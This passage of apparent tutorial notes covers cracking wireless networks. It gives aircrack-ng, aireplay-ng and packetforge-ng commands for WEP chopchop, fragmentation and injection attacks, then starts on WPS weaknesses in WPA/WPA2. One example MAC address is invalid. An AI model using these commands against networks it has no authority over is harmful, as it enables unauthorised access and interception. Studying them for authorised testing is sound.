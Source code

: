 After enough number of data packets recieved crack it with aircrack-ng as before:
▶️> aircrack-ng filename.cap


Another method to inncrease the flow of data packet is the korek chop chop attack:

First start airodump-ng against the network to see the data flow live as we did erlier(also store it as a file to crack it later)

Then do a fakeauth attack before to associate with the network

Then start the attack:

▶️> aireplay-ng --chopchop -b 08:00:27:c7:e1:36 -h f8:00:65:g3:a2:98 mon0 (Do ifconfig wlan0 to get the mac address of our adapttor)


Now next step is to forge fake packets:

▶️> packetforge-ng -0 -a 08:00:27:c7:e1:36 -h f8:00:65:g3:a2:98 -k 255.255.255.255 -l 255.255.255.255 -y replay-dec.xor -w chopchop-forged-packet [-k is the destination ip -l is the source ip, reply-dec.xor is the file we created in the previous step(chopchop attack), chopchop-forged-packet is the name of the forge packet that is gonna be created]


Now we need to inject the forged packet to the network......Do a fakeauth attack before that and do it:

▶️> aireplay-ng -2 -r chopchop-forged-packet mon0

Now also the no: of packets will increase.

Then crack the .cap file with aircrack-ng to get the key.



WE CAN USE FRAGMENTATION ATTACK FOR PACKET INJECTION BEHALF OF THESE 2 MEATHODS(Study from internet if want)

Its exactly the ssame as before chop chop attack obtain the fragment and inject it:

▶️> aireplay-ng --fragment -b 08:00:27:c7:e1:36 -h f8:00:65:g3:a2:98 mon0 

Now inject the captured fragment.

---------------------------------------



WPA/WPA2 CRACKING
---------------------------------------
Cracking wpa/wpa2 is challengiing than wep, however let's have a look at the feature that can be used to get the key without cracking the actual algorithm:
That is the WPS 

So the wps must be enabled on the network. Also it needs to be misconfigured- means It will not work the push button is enabled(So wps must be enabled and push button must be disabled). If push button is enabled it will reject all of our pins.


In many cases wps is disbled and push button is enabled by default, in that case we can't exploit it, but since wpa/wpa2 cracking is so challenging...just check that wps is enabled.(Sometimes wps locks after some failed attempts)
